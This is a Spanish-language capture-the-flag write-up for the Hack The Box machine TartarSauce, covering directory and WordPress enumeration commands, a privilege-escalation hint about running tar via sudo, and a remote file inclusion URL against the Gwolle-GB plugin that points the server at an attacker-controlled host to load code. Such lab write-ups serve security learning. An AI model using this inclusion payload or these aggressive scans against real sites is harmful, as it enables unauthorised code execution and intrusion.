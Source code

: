 # TartarSauce-HTB

## Nmap

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/c7ffdab0-afe6-4080-938b-002e3fc39235)

## Dirbuster

Para encontrar lo que sea es de las mejores tools aunque aveces de tantas peticiones llena los logs lo que hace que las maquinas no funcionen como deberian.

```
dirbuster -u http://10.129.1.185/ -t 200 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html
```

Todo lo demas que se encuentra en robots.txt son rabbit holes porquen o se puede hacer nada. Se encontro un WP 

### WP scan

Esta herramienta ayuda a enumerar el WP sin embargo, en esta ocacion no me detecto nada!

```
wpscan --detection-mode aggressive -e u,p --url http://10.129.1.185/webservices/wp 
```

Un check que siempre tienes que hacer es ver si tiene plugins aunque no encontro nada wpscan checa a ver si estan en el directorio donde siempre estan  aparte fuzzea 


```
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt  http://10.129.1.185/webservices/wp/FUZZ 
```

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/f2fec32d-79c9-4394-b184-0b9501cf9041)


![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/3f211fe4-93f0-4483-b8a8-11e398930402)


## RCE 

Buscamos y un plugin parece vulnerable.

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/3d793bf5-6436-4edc-bb21-b183dc781556)

```
http://10.129.1.185/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.108
```

## Privilege Esc

Lo que apredi en est maquina es que no importa que no tengas credenciales siempre intenta el sudo -l. Nos damos cuenta que se puede ejecutar tar con privilegios de otro usuario


![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/0bc1f184-2c6d-41e1-addd-98af3f35c7cb)






























